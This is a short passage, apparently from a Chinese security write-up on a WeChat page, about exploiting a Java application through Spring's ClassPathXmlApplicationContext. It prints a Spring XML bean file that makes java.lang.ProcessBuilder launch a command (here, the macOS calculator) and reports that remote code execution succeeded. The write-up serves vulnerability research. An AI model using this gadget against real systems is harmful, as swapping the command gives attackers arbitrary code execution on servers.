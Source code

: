 这⾥同样 patch 了
org.springframework.context.support.ClassPathXmlApplicationContext , 使其继承

Throwable 类

  

![]()

<?xml version="1.0" encoding="UTF-8" ?>

<beans xmlns="http://www.springframework.org/schema/beans"

xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"

xsi:schemaLocation="

http://www.springframework.org/schema/beans

http://www.springframework.org/schema/beans/spring-beans.xsd">

<bean id="pb" class="java.lang.ProcessBuilder" init-
method="start"><constructor-arg >

<list>

<value>open</value>

<value>-a</value>

<value>calculator</value>

</list>

</constructor-arg>

</bean>

</beans>

  

最后成功 RCE

![]()

  

  

  

  

  

  

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

